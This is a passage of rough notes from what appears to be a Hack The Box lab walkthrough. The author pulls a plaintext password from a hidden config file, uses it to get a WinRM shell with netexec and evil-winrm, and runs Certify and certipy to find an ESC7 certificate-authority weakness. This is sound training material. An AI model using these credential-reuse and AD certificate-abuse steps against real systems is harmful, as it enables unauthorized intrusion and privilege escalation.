 ```bash
unzip
ls -al
-rw-rw-r--  1 pwn pwn      698 Jul 27  2023 .old-conf.xml
──(pwn㉿kali)-[~/Downloads]
└─$ cat .old-conf.xml 
<user>raven@manager.htb</user><password>R4v3nBe5tD3veloP3r!123</password>

```
raven
R4v3nBe5tD3veloP3r!123
```bash
netexec winrm 10.10.11.236 -u 'raven' -p  'R4v3nBe5tD3veloP3r!123'
```

```bash
┌──(pwn㉿kali)-[~]
└─$ netexec winrm 10.10.11.236 -u 'raven' -p  'R4v3nBe5tD3veloP3r!123'
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)

```

```bash
┌──(pwn㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.236 -u 'raven' -p  'R4v3nBe5tD3veloP3r!123'

```

```bash
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents>

```

## post-exploitation
![[Pasted image 20250205102009.png]]

```
┌──(pwn㉿kali)-[/opt/SharpCollection/NetFramework_4.7_Any]
└─$ ls
or download it from github

```
.\Certify.exe find /vulnerable
```bash
*Evil-WinRM* PS C:\Users\Raven\desktop> upload Certify.exe
*Evil-WinRM* PS C:\Users\Raven\desktop> .\Certify.exe find /vulnerable

```
or
```bash
┌──(pwn㉿kali)-[~]
└─$ certipy find -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
CA : manager-DC01-CA


[!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions

```
-check the great  link below
